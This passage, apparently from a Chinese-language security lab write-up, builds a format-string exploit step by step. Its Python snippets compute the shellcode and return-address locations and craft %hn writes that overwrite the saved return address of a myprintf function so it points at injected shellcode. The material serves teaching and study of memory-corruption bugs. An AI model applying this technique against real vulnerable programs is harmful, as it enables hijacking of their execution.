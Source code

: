   可以打印出shellcode的起始地址：`0x00007fffffffe907`

  ```python
  shell_code_addr = buf_addr + 1500 - len(shellcode) # shellcode起始地址
  
  print('%#x'%shell_code_addr)
  ```

  ![image-20220430154413985](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319359.png)

- `myprintf`的return address$=ebp+8=0x00007fffffffe318$

  ```python
  ebp_addr = 0x00007fffffffe310	# myprintf ebp的地址
  
  ret_addr = ebp_addr + 0x8 # myprint return address
  ```

- 目标是把`0x00007fffffffe318`改成`0x00007fffffffe907`，同样通过`%hn`2字节一改：

  - 按照从小到大的顺序改，0x7fff→0xe907→0xffff（方便起见，就不用溢出了）

    ```python
    s1 = 0xe907  # shell_code_addr 0-16位
    
    s1_addr = ret_addr
    s2 = 0xffff  # 16-32位
    
    s2_addr=ret_addr+0x2
    s3 = 0x7fff  # 32-48位
    
    s3_addr=ret_addr+0x4
    # 最高16位全0
    ```
    
    format string：（中间的00表示还未确定，`%x$hn`可以指定栈上的第几个偏移量）
    
    ```python
    s = "%." + str(0x7fff) + "x" + "%00$hn" + "%." + str(0xe907-0x7fff) + "x" + "%00$hn" + "%." + str(0xffff-0xe907) + "x" + "%00$hn"
    ```
    
    - 为了避免地址中的`\0`影响format string的解析，把地址放在format string后面。之前已经得出`buf[]`的offset是34，所以地址的偏移应该是两位数，先用00占位子打印出`fmt`的长度为41bytes。
    
      ```python
      fmt = (s).encode('latin-1')
      print("fmt:"+str(len(fmt)))
      ```
    
      ![image-20220430162148326](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319154.png)
    
      $\lceil 41/8\rceil=6$，所以地址分别放在40(34+6)、41、42个参数的位置。format string：
    
      ```python
      s = "%." + str(0x7fff) + "x" + "%40$hn" + "%." + str(0xe907-0x7fff) + "x" + "%41$hn" + "%." + str(0xffff-0xe907) + "x" + "%42$hn"
      ```
  